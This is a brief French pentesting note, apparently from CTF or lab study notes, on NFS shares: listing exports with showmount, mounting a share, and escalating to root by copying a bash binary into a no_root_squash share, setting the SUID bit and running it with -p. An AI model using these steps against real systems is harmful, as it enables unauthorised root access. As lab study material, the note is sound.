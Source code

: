 Lister  les  NFS Shares 

```bash
>>> showmount -e [IP]
```

Pour récupérer le share  :

```bash
>>> sudo mount -t nfs IP:/[DIR] /tmp/mount/ -nolock
```

Par défaut sur NFS le root_squashing est activé et empeche les connexion en root directement.

Elevation de droit sur NFS : 

- Telecharger un executable dans le repertoire share qui a été mount 

	- https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
- Le rendre executable et activer le SUID : 
	- sudo chmod +s  [nom du script]
- Executer avec le -p pour activer le SUID et avoir les droits root


Télécharger un script sur une machine nfs via ssh :

- `scp -i key_name username@ip:/bin/bash ~/Downloads/bash`

![[nfs outpath exploitation.png]]
